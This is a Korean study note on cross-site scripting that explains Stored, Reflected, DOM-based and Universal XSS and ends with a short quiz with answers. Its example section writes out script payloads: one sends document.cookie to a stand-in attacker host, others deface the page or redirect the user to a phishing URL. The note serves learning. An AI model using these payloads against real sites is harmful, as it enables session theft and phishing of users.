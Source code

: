 # Cross Site Scripting (XSS)  
## Cross Site Scripting (XSS)  
XSS는 **클라이언트 사이드 취약점** 중 하나로, 공격자가 웹 리소스에 **악성 스크립트를 삽입**해 사용자가 해당 웹 리소스를 가져오면, **악성 스크립트를 실행**해서 정보를 탈취  
**SOP 보안 정책**이 등장하면서, 이전에 비해 힘들어졌지만, 이를 **우회하는 다양한 기술**이 있다.  
<img src="1.jpg">  
## XSS 발생 예시와 종류  
XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.  
예를 들어 **<script>** 등을 이용해 악성 스크립트를 만들어서 사용자가 실행하게 한다.  
XSS 종류는 다양하지만, 여기서는 4가지 정도 언급한다.  
1. Stored XSS : XSS에 사용되는 악성 스크립트가 **서버에 저장**되고 서버의 **응답에 담겨오는** XSS
2. Reflected XSS : XSS에 사용되는 악성 스크립트가 **URL에 삽입**되고 서버의 **응답에 담겨오는** XSS
3. DOM-based XSS : XSS에 사용되는 악성 스크립트가 **URL Fragment에 삽입**되는 XSS
4. Universal XSS : 클라이언트의 **브라우저** 혹은 **브라우저의 플러그인**에서 발생하는 취약점으로 **SOP 정책을 우회**하는 XSS
<img src="2.jpg">
위의 실습에서 악성 스크립트를 작성하면, 아래 그림처럼 script를 탐지했다는 것을 볼 수 있다.
<img src="3.jpg">  

## XSS 스크립트 예시  
아까 적었던 것처럼 **<script>** 를 통해 악성 스크립트를 만듭니다.  
즉, 자바스크립트를 주로 사용한다.  
```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```
위의 코드는 **쿠키 및 세션 탈취** 공격 코드이다.  
```html
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```
위의 코드는 **페이지 변조** 공격 코드이다.  
```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```
위의 코드는 **위치 이동** 공격 코드이다.  
# Stored XSS  
## Stored XSS  
Stored XSS : **서버의 데이터베이스** 또는 **파일** 등의 형태로 저장된 **악성 스크립트를 조회**할 때 발생하는 XSS  
<img src="4.jpg">  
이렇게 스크립트를 적고, 목록에 가서 게시물을 클릭하면 다음과 같이 스크립트가 실행된다.  
<img src="5.jpg">  
# Reflected XSS  
## Reflected XSS  
Reflected XSS : 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생함  
-> Stored XSS와는 다르게 **URL과 같은 이용자의 요청**에 의해 발생  
<img src="6.jpg">  
다음과 같이 실습창이 있고, 위에 있는 URL에서 검색할 수 있다.  
<img src="7.jpg">  
그런데, 여기에 스크립트를 넣을 수도 있다.  
<img src="8.jpg">  
# 퀴즈  
1. 이용자의 요청에 악성 스크립트가 포함되는 XSS는?  
답 : Reflected XSS  
2. XSS 취약점이 발생하는 곳은?  
답 : 클라이언트 + 서버  
3. 다음 설명이 말하는 XSS로 올바른 것은?  
**공격 스크립트가 서버 내에 존재하는 데이터베이스 또는 파일 등의 형태로 저장되어 있다가 이용자가 저장된 공격 스크립트를 조회하는 순간 발생하는 형태의 XSS 입니다.**  
답 : Stored XSS    
